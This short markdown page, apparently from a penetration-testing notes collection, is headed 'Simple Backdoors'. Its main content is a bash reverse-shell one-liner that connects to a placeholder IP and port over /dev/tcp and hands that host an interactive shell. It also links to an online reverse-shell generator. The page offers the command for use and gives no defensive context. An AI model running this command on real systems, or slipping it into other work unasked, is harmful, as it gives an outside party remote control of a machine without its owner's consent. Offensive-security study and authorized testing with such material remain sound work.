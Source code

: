 # Simple Backdoors

### One-liner Backdoor

```bash
bash -i >& /dev/tcp/<IP>/<Port> 0>&1
```

### Resource for One liner Backdoors

* [https://www.revshells.com/](https://www.revshells.com/)
